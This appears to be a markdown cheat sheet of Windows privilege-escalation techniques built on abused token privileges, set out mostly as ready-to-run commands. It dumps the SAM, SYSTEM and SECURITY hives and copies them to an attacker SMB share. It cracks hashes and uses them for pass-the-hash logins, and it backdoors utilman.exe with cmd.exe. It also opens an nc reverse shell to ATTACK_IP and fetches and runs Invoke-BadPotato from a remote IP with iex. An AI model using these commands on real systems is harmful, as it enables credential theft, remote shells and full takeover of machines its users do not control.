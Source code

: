 # Privilege check command: whoami /priv

# Examples of dangerous privileges:

## SeBackup/SeRestore

#### 1: Backup SAM and SYSTEM hashes

 - cd /

 - mkdir temp

 - cd temp

 - req save hklm\system c:\temp\system

 - req save hklm\sam c:\temp\sam

 - download sam

 - download system

#### 2: Create SMB Server on attacking machine

 - 1: mkdir share

 - 2: impacket-smbserver -smb2support -username USER -password PASSWORD public share

#### 3: Copy backups to share folder

- copy c:\users\user\sam.hive \\ATTACK_IP\public\

- copy c:\users\user\system.hive \\ATTACK_IP\public\

#### 4: Retrieve hashes

 - impacket-secretsdump -sam sam.hive -system system.hive LOCAL

## OR 

 - pypykatz registry --sam sam system

#### 5: Pass-The-Hash Attack (PtH)

- impacket-psexec -hashes HASH administrator@TARGET_IP

#### TIP: We can also use evil-winrm for PtH attacks.

- evil-winrm -i TARGET_IP -u administrator -H 'NTLM_HASH'

## Alternate Method to transfer the Hives: reg.py  remotely on Linux

 - python smbserver.py -smb2support share /tmp

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SAM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SYSTEM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SECURITY' -o '\\attacker ip\share'

## Alternate Method: SeBackupPrivilegeUtils https://github.com/giuliano108/SeBackupPrivilege

### Usage:

 - Import-Module .\SeBackupPrivilegeUtils.dll

 - Import-Module .\SeBackupPrivilegeCmdLets.dll

 - Set-SeBackupPrivilege

 - Get-SeBackupPrivilege

## Alternate Method: Robocopy

 - robocopy C:\Users\Administrator\Desktop C:\Users\Public root.txt /B

 - type C:\Users\Public\root.txt

## SeTakeOwnership

#### Essentially, we can take ownership of a service running as SYSTEM and elevate privileges.

### Example: Utilman.exe

#### 1: takeown /f c:\windows\system32\utilman.exe

#### 2: icacls c:\windows\system32\utilman.exe /grant USER:F

#### 3: copy cmd.exe utilman.exe

#### 4: Trigger uitlman : Lock screen, click ease of access

## SeImpersonate/SeAssignPrimaryToken

### A lot of potato exploits work with these privileges, so in our example we will talk about RoguePotato.

#### RogueWinRM.exe exploit

#### 1: Start listener

#### c:\path\to\roguewinrm\roguewinrm.exe -p "C:\path\to\nc64.exe" -a "-e cmd.exe ATTACK_IP PORT"

## Tool: PrintSpoofer

## Link: https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

## Tool: Invoke-BadPotato

## Link: https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-BadPotato.ps1

Download the script on our target machine

    iex(new-object net.webclient).downloadstring('http://10.10.14.5:9999/Invoke-BadPotato.ps1')

Run the script to get system

    Invoke-BadPotato -Command "c:\temp\runme.bat"

## SeDebug Privilege

### Tools: Meterpreter, https://github.com/decoder-it/psgetsystem

### Steps:

#### 1) Get-Process winlogon (Check for a specific SYSTEM level process running on the machine)

#### 2) Download and execute Meterpreter on target machine to connect to us

#### 3) ps (Check for processes running as SYSTEM. Example: winlogon.exe)

#### 4) migrate PID (Take ownership of the elevated process)

#### 5) VOILA!

## TIP: If the SeDebug Privilege is disabled, we can enable it with psgetsystem powershell script (Link attached at the top of this attack's explanation)

